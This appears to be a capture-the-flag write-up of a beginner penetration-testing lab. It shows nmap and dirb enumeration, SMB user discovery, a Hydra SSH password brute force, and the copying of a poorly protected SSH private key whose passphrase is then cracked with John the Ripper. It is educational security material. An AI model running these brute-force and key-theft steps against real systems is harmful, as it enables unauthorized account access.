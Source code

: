 # Enumeration

### nmap
```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.7
```
### 80/http
when we open the page we get greeted with this screen
![[Pasted image 20240924145815.png]]

in the source code we can find
```html
<html>

<h1>Undergoing maintenance</h1>

<h4>Please check back later</h4>

<!-- Check our dev note section if you need to know what to work on. -->


</html>
```

there aren't any links so lets try to brute-force our way
#### Dirb
```
-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.165.52/ ----
==> DIRECTORY: http://10.10.165.52/development/
+ http://10.10.165.52/index.html (CODE:200|SIZE:158)
+ http://10.10.165.52/server-status (CODE:403|SIZE:300)

---- Entering directory: http://10.10.165.52/development/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

-----------------
```

so the hidden page was /development which is also a listing directory lets have a look inside
![[Pasted image 20240924150930.png]]

there are two text files the first reads

```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```
these are the chats between _-J_ and _-K_ from development

```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```
This is for J regarding his weak passwords, so we should probably try brute forcing it. The only problem is that we don't have the full username, so lets try enumerating the SMB maybe we can find the usernames that way.

### 139, 445/SMB
#### Enum4Linux
the scan gave us two usernames: _Jan_ and _Kay_ 
> *the log corrupted somehow so I cant show you ):*

We also found a Anonymous share but it doesn't have much accept for this file
```
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

lets try to bruteforce Jan's Password

### 22/SSH
#### Hydra
found a password with this command
```bash
$ hydra -u jan -P rockyou.txt ssh://[target]

[22][ssh] host: 10.10.165.52   login: jan   password: armando
```

# Privilege escalation
after searching for about 2 minutes in the server I found out that the *key_rsa* in kay's home folder has bad permissions so I just copied it

when using it I realised that the hash has a pass two so I will have to crack it with johnTheRipper

first I take the key and use `ssh2john id_rsa > id_rsa.txt` to make it a crack-able hash and then I use john with rockyou.txt to crack the hash
```shell
$ john id_rsa.txt --wordlist=/home/janosch/git/SecLists/Passwords/Leaked-Databases/rockyou.txt
..Snip..
beeswax          (id_rsa)
..Snip..
Session completed
```